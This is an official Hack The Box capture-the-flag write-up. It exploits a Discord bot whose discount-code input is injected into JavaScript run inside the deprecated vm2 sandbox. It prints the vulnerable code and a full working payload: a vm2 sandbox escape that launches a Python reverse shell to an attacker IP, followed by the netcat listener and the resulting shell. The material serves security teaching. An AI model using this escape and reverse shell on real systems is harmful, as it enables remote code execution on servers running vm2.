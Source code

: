 ![](../../../../../assets/logo_htb.png)



<img src="../../../../../assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />    	<font size="10">Super-Duper Pwn</font>

​		17<sup>th</sup> April 2024

​		Prepared By: ir0nstone

​		Challenge Author(s): Lean

​		Difficulty: <font color=green>Easy</font>

​		Classification: Official

 



# Synopsis

Super-Duper Pwn is an Easy misc challenge that simply requires a user to abuse a discord bot to achieve code execution, bypassing a vm2 restricted environment.

# Description

In the heart of the desolate wasteland stood a relic of the old world: the last known Super Duper Mart still operational, run entirely by a swarm of self-service robots. Designed as an impenetrable fortress, it preserved food and drinks from a long-gone era. The only interaction with the outside world came from behind a titanium-barred window, where a prototype Bag Boy robot sporadically chirped, "How may I be of assistance today?". For the crew, this store was a beacon of hope amidst the ruins, holding the nuclear goodies they desperately needed for their perilous journey. Short on caps, their only option was to somehow hack the robot. (https://discord.com/oauth2/authorize?client_id=1235600871086358649&scope=bot&permissions=2048)

## Skills Required

- JS Source Analysis

## Skills Learned

- Bypassing a sandboxed environment

# Enumeration
If we follow the link, we can add a discord bot named **SD Shopping Assistant** to a server of our choice. Creating a personal server and inviting it, we can see 4 different functionalities. A combination of discord and source code analysis can tell us what these options do. We can see that there are two containers, one named `bot` and another named `api`.

* `/listproducts` - prints out the available products
* `/addtocart [id] [quantity]` - adds `quantity` of product ID `id` to the cart
* `/viewcart` - prints out the cart contents
* `/checkout [discount]` - checks out and returns the total cost; initially, we are not able to use this as we are not "logged in"

`/listproducts` and `/viewcart` are not too interesting, as they take no additional input, so we focus on `/addtocart` and `/checkout`.

`/addtocart` is very basic:

```js
if (commandName === "addtocart") {
    const id = interaction.options.getString("id");
    const quantity = interaction.options.getInteger("quantity");

    const product = products.find(p => p.id === id);

    if (!product) {
        await interaction.reply("Product not found.");
        return;
    }

    if (!carts[interaction.user.id]) {
        carts[interaction.user.id] = [];
    }

    carts[interaction.user.id].push({ product, quantity });

    await interaction.reply(`${quantity}x ${product.name} added to your cart.`);
}
```

Nothing out of the ordinary there - at least, not compared to `/checkout`:

```js
if (commandName === "checkout") {
    if (!interaction.member.roles.cache.some(role => role.name === 'Loggedin')) {
        await interaction.reply("You don't have permission to use this command.");
        return;
    }

    const cart = carts[interaction.user.id] || [];
    if (cart.length === 0) {
        await interaction.reply("Your cart is empty.");
        return;
    }

    const discountCode = interaction.options.getString("discount");

    const definitions = `
        const discountCodes = {
            "DISCOUNT10": 0.10,
            "DISCOUNT20": 0.20,
            "DISCOUNT30": 0.30
        };
        let cart = ${JSON.stringify(cart)}; 
        let discountCode = '${discountCode}'; 
        let discount = 0;
    `;
    const code = `
        if (discountCode && discountCodes[discountCode]) {
            discount = discountCodes[discountCode];
        }
        
        let total = 0;
        cart.forEach(item => {
            total += item.product.price * item.quantity;
        });
        total *= (1 - discount);
        total;
    `;
    const output = await evaluateCode(definitions + code);

    await interaction.reply(`Your total is ${output} caps`);
    carts[interaction.user.id] = [];
}
```

Firstly, we can note why we are not logged in - we don't have a role by the name of `Loggedin` assigned to us. We can create that in the server settings and give ourselves it; now we can run `/checkout`.

Next, the function builds up JavaScript code by combining a boilerplate with our `discount` input, which is stored in the `discountCode` variable and inserted directly into the string. It will eventually run `evaluateCode` on it:

```js
const evaluateCode = async (code) => {
    try {
        const response = await axios.post("http://api:3000/run", { code });
        return JSON.stringify(response.data.output);
    } catch (error) {
        return error.message;
    }
}
```

This sends the `code` to the `/run` endpoint of the API container, which does the following:

```js
app.post("/run", (req, res) => {
    let { code } = req.body;
    
    if (typeof code !== "string") {
        return res.status(400).json({ error: "Code must be a string." });
    }

    const vm = new VM();

    try {
        let output = vm.run(code);
        res.json({ output });
    } catch (err) {
        res.status(500).json({ error: err.message });
    }
});
```

It executes the code! This is incredibly unsafe, as there is user-controlled code here - an attacker could run arbitrary code! The only saving grace is that this is being run under a `VM` instance from the [`vm2`](https://www.npmjs.com/package/vm2) package, but this package has been **deprecated**!


# Solution
All we have to do is craft a vm2 bypass that will provide us with a reverse shell. We will grab a vm2 bypass from [here](https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9) and craft a payload:

```
';const ip = "<ip>";
const port = 9001;
const revshell = `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("${ip}",${port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'`;
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor("return process")().mainModule.require("child_process").execSync(revshell); }
            )
        }
    }
};
p.then();let a = '
```

Note that `';` at the beginning and `;let a = '` at the end - this is so that when `discountCode` is inserted into the JS code, it remains valid code. Set `ip` to a machine you have control over and then listen on it. Make sure the machine is publicly accessible!

```sh
nc -nvlp 9001
```

Now send the payload in discord, using `/checkout <payload>` (newlines don't matter). We should get a callback on the listener, and we can run `/readflag` to get the flag:

```sh
user@server:~$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 16.16.97.171 51076
$ /readflag
/readflag
HTB{<flag>}
```
